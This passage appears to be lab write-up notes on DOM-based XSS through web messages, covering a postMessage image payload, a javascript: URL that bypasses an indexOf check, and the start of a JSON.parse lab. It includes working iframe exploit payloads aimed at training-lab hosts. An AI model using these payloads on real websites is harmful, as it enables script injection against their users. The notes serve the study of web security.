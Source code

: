 The next step is use the print function to complete the lab.

```html
<iframe src="https://0a9500ae03c62b068039580c00730066.web-security-academy.net/" style="width:100%;height:100%;border:none" onload="this.contentWindow.postMessage('<img src=x onerror=print()>', '*')"></iframe>
```

# DOM XSS using web messages and a JavaScript URL

In this lab we found the following script:

```js
window.addEventListener('message', function(e) { var url = e.data; if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) { location.href = url; } }, false);
```

- `url = e.data` -> save the data in url variable.
- `if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1)` -> Returns the positions of the first occurence of a value in a string. Returns -1 if the value is not found.
- `location.href` -> Set the URL of the current page.

We can play with the console:

```js
"http://probando.com".indexOf('http:')
"adahttp://probando.comaaasd".indexOf('http:')
"javascript:alert(0)//http://probando.comaaasd".indexOf('http:')
postMessage("javascript:alert(0)//http://probando.com")
```

We try to simulate the script, then indexOf check that the value is found(greater than -1), if you add more characters at the beginning or at the end the value is greater than -1 and you're bypassing this filter.

If you check with postMessage you see that works, the next step is going to exploit server:

```html
<iframe src="https://0a4d001c04d5b1aa806b18ed00ed005b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http://test.com', '*')" style="width:100%;height:100%;border=none;"></iframe>
```

# DOM XSS using web messages and `JSON.parse`

This is the script of this lab:

```js
window.addEventListener('message', function(e) {
	var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
	document.body.appendChild(iframe);
	try {
		d = JSON.parse(e.data);
	} catch(e) {
		return;
	}
	switch(d.type) {
		case "page-load":
			ACMEplayer.element.scrollIntoView();
			break;
		case "load-channel":
			ACMEplayer.element.src = d.url;
			break;
		case "player-height-changed":
			ACMEplayer.element.style.width = d.width + "px";
			ACMEplayer.element.style.height = d.height + "px";
			break;
	}
```